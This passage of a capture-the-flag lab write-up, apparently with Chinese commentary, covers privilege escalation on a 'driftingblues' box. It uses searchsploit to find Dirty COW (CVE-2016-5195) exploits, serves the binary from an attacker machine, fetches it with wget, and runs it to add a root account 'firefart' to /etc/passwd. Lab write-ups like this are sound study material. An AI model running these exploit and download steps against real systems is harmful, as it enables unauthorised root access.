 ### 5. searchsploit
```
www-data@driftingblues:/home$ uname -a
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```

```
┌──(chw㉿CHW)-[~]
└─$ searchsploit Linux 3.2.0-4 
...
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                          | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                             | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                          | linux/local/40839.c
...

```
### 6. exploit (Dirty COW（CVE-2016-5195）)
利用 Dirty COW 的 race condition 改寫 /etc/passwd 來建立或覆蓋帳號
```
┌──(chw㉿CHW)-[~]
└─$ searchsploit -x 40839
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    Codes: CVE-2016-5195
 Verified: True
File Type: C source, ASCII text

┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
```
www-data@driftingblues:/home$ cd /tmp
www-data@driftingblues:/tmp$ wget http://192.168.45.221/dirty
www-data@driftingblues:/tmp$ ./dirty
./dirty
Please enter the new password: chw

/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:fi2TcL2BkmbVQ:0:0:pwned:/root:/bin/bash

mmap: 7ffa82462000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'chw'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:fi2TcL2BkmbVQ:0:0:pwned:/root:/bin/bash

mmap: 7ffa82462000
madvise 0

```
